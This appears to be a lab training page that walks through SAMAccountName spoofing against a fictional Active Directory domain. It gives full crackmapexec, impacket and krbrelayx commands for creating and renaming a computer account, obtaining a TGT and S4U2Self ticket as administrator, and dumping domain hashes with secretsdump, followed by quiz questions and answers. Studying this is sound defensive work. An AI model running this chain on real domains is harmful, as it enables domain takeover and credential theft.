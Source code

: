 #SAMAccountNameSpoofing

This attack revolves around tricking the KDC into thinking an account different from the DC is actually the DC account. This way, an attacker can impersonate a DC in a S4U2Self Kerberos extension and retrieve highly privileged service tickets for any DC service.

To perpetrate this attack, one must use previously retrieved user credentials, and this user must be able to create a computer account. Users can create up to 10 computer accounts in AD by default. The attacker can check how much computer accounts they can create using CME:
```
crackmapexec ldap captain.north.altair.local -u skyler.white -p Password123 -d north.altair.local -M MAQ
```
It seems that Skyler can create up to 10 computer accounts. Let's create a new one:
```
addcomputer.py -computer-name 'samaccountname$' -computer-pass 'ComputerPassword' -dc-host captain.north.altair.local -domain-netbios NORTH 'north.altair.local/skyler.white:Password123'
```
Now, the attacker has access to this new account as well. Each account can modify its own SPNs. In this attack, it's necessary to clear out every SPN associated with the newly created account before changing its name:
```
#in the krbrelayx dir
python3 addspn.py --clear -t 'samaccountname$' -u 'north.altair.local\skyler.white' -p 'Password123' 'captain.north.altair.local'
```

Now, we'll rename the computer account's name to the DC's computer account name, without a trailing '$'. Then, we'll retrieve a TGT that will reference this new name. Once we get the TGT we'll change the computer account name back to its original:

```
#in the samaccountname_scripts dir
python3 ./renameMachine.py -current-name 'samaccountname$' -new-name 'CAPTAIN' -dc-ip 'captain.north.altair.local' north.altair.local/skyler.white:Password123
getTGT.py -dc-ip 'captain.north.altair.local' 'north.altair.local'/'CAPTAIN':'ComputerPassword'
python3 ./renameMachine.py -current-name 'CAPTAIN' -new-name 'samaccountname$' -dc-ip 'captain.north.altair.local' north.altair.local/skyler.white:Password123
```

Now, the attacker can use this TGT and confuse the KDC into believing that the TGT actually belongs to the DC computer account. The attacker can then impersonate the DC in order to obtain a service ticket to a DC service as any user. The attacker will then retrieve a service ticket to the SMB service for the administrator user, and then use this ticket to compromise the domain through a DCSync attack using the secretsdump.py script.

```
export KRB5CCNAME=/home/ubuntu/samaccountname_scripts/CAPTAIN.ccache
python3 ./getST.py -self -impersonate 'administrator' -altservice 'CIFS/captain.north.altair.local' -k -no-pass -dc-ip 'captain.north.altair.local' 'north.altair.local'/'CAPTAIN'
#now we have a service ticket impersonating the administrator to the DC's SMB service. At this point the domain can be compromised
export KRB5CCNAME=/home/ubuntu/samaccountname_scripts/administrator@CIFS_captain.north.altair.local@NORTH.ALTAIR.LOCAL.ccache
secretsdump.py -k -no-pass -dc-ip 'captain.north.altair.local' @'captain.north.altair.local'
```

!!! question
    How can the attacker retrieve a service ticket to the DC's SMB service as the Administrator? Through what mechanism?
??? success "Answer"
    The attacker retrieves this ticket using the S4U2Self mechanism, which the DC account is allowed to perform. The attacker makes the KDC believe that it holds a TGT pertaining to the DC, and thus it is eligible to execute the S4U2Self and retrieve a service ticket to a DC service, while impersonating the administrator.
!!! question
    How did the attacker tricked the KDC into believing that the TGT that the attacker holds actually pertains to the DC?
??? success "Answer"
    By first changing a owned computer account name to CAPTAIN (without a $ at the end). Asking for a TGT, which will reference the CAPTAIN account, and then changing the account name back to the original. Finally, use the TGT, and since there's no CAPTAIN account, the KDC believes the TGT actually belongs to CAPTAIN$, which is the DC's computer account.